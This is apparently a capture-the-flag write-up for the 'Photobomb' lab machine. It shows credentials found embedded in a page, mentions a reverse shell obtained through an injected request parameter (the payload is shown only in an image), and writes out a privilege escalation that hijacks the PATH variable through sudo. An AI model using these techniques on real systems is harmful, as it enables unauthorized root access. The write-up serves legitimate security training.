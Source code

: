 # Photobomb

After Nmap (22,80), edit the /etc/hosts file and inspect the web application.

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

Inspecting the code of `photobomb.htb`, there is this line: `http://pH0t0:b0Mb!@photobomb.htb/printer`

It logs in automatically.

Inspect the POST with burp to download a PNG photo and find diferrent parameteres, so lets use an encoded URL with the parameter to obtain a reverse shell:

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### Analyze the sudo permissions

`sudo -l`

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

We open the script and see that find is using the relative path, not the absolute. So lets crate a find command as bash and execute it as root

```bash
echo bash > find
chmod +x find
sudo PATH=$PWD:$PATH /opt/cleanup.sh # This add the pwd to the variable $PATH 
id

```

